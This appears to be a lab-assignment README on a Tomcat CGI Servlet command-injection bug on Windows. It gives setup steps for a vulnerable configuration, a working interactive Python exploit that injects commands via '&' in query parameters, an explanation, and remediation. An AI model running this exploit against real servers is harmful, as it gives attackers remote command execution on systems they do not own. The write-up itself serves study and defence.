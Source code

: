 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat (in this case 7.0.93) and extract.
1. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
1. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

1.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
	``` bash
        cd bin
	catalina run
        ```
1.	Run the exploit code with url of the `.bat` file in cgi folder on server.
  
# Exploit Code:

```python3

	import requests as re
	base_url = input("Enter url of the .bat cgi script: ")
	while(True):
		command = input("Enter the command: ")
		command = '&echo off'+'&echo.'+'&'+command
		r = re.get(base_url, params=command.replace(" ","+"))
		print(r.text)
```
This code exploits vulnerability in parameter interpolation by passing arguements as query parameters which in turn are passed to the underlying windows command line. In
windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the Windows JRE perform any kind of input validation for these special characters.
So after this we can literally input any command directly to the command line. For example, if input is `whoami`, the command which is passed to cmdline will be `RCE.bat &echo
off&echo.&whoami`. This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files and
`enableCmdLineArguements` set to true in web.xml file. 

  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 

# References:
1.	https://www.codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html
1.	https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way
